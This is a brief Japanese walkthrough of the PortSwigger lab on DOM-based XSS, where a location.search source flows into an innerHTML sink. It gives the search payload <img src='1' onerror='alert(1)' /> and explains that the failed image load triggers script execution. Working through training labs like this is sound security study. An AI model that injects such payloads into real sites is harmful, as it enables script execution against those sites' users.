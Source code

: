 # Location.search ソースを使用し innerHTML に DOM XSS を埋め込む

以下のハッキングラボを実施します  
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink

- 2. ハッキングラボにアクセスします
- 3. 以下のワードで検索します

```html
<img src="1" onerror="alert(1)" />
```

画像参照エラーによる例外処理によりスクリプト実行が確認できます  
※回答を見て感心したけど、どうやって気づけば良いか難しい
